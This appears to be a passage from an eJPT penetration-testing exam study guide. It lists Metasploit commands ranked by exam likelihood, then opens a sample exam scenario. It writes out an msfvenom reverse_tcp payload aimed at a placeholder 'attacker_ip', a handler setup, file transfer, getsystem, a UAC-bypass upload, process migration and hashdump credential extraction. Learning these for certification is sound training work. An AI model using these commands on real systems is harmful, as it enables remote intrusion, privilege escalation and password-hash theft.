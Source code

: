 #### **Level 2 - Very Likely (80-90% Chance):**
```bash
# Custom payload generation
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe > payload.exe
# Expected: Executable file created

# Multi-handler setup
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 4444
exploit
# Expected: Handler listening for connections

# File transfer operations
upload local_file remote_path
download remote_file local_path
# Expected: Successful file transfer

# Basic privilege check
getuid
sysinfo
# Expected: Current user and system information
```

#### **Level 3 - Possible (60-70% Chance):**
```bash
# Advanced privilege escalation
getsystem
# Expected: Success or specific error message

# UAC bypass (if getsystem fails)
# Upload UAC bypass tools and execute
upload uac_bypass_tool.exe .
# Execute tool with payload parameter

# Process migration
ps -S process_name
migrate PID
# Expected: Migration success message

# Hash extraction
hashdump
# Expected: User password hashes
```

### **🎯 Common eJPT Exam Scenarios:**

#### **Scenario 1: Basic Web Server Exploitation**
**Given:** IP address 192.168.1.100 with unknown services
**Your Job:** Find web service, identify version, exploit vulnerability
**Time Limit:** 10-15 minutes
